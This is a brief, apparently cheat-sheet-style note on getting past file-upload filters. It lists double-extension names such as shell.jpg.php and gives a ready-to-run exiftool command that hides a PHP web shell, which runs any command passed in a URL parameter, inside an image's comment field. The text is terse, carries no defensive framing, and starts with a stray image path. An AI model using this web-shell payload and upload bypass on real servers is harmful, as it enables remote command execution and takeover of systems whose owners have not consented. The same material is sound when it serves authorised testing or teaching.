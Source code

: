 Shell bypass some case for filter
1. shell.gif.php
2. shell.jpg.php
We need embeded php code in images as:

Create malicous image file in rce.jpg by exiftool

`exiftool -Comment='<h1>PHP Shell </h1><?php echo "<pre>"; system($_GET['cmd']); ?>' shell.jpg`
